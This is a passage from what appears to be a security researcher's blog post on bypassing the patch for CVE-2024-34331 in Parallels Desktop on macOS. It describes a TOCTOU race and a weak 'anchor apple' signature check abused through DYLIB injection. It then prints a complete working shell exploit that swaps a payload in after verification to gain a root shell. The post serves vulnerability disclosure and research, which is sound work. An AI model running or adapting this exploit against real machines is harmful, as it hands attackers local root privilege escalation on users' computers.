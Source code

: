 The patching code is to verify whether the tool `createinstallmedia` is Apple-signed. If yes, then it will spawn the tool `createinstallmedia` with **root privilege**. Otherwise, it will exit with an error.

There are at least two different ways to bypass the verification here:

1. Bypass via a **TOCTOU** attack: After passing the signature verification, and before it spawns the tool, an attacker has enough time to replace the tool `createinstallmedia` with a malicious one!
2. The requirement string **"anchor apple"** for the signature verification is too weak! An attacker can find an **Apple-signed** executable binary (e.g., the system command `ls`), and then **inject** a malicious DYLIB into the Apple’s binary to bypass the signature verification directly! I have talked about this trick in [my previous blog](https://jhftss.github.io/CVE-2024-54527-MediaLibraryService-Full-TCC-Bypass/).

# Exploit 1

The exploit script for the function `do_repack_createinstallmedia` is as follows:

```
#!/bin/sh
# Bypass the patch of CVE-2024-34331 via TOCTOU

echo "[?] whoami; id"
whoami
id

echo "[*] Dropping a payload..."
cat << EOF > /tmp/payload
#!/bin/sh
touch /Library/lpe
/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal &
EOF

chmod +x /tmp/payload

echo "[*] Dropping a fake macOS installer..."
mkdir -p /tmp/poc.app/Contents/Resources
cp /bin/ls /tmp/poc.app/Contents/Resources/createinstallmedia
defaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName createinstallmedia

echo "[*] Trigger the repack..."
open /tmp/poc.app -a /Applications/Parallels\ Desktop.app

echo "[*] Waitting for the verification..."
dir_pattern="/Users/$USER/Parallels/*iso.tmp.*"
# Check if the random directory exists
while [ -z "$(ls -d $dir_pattern 2>/dev/null)" ]; do
    :
done

mv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmedia
echo "[*] All done. Enjoy the root shell :P"

```

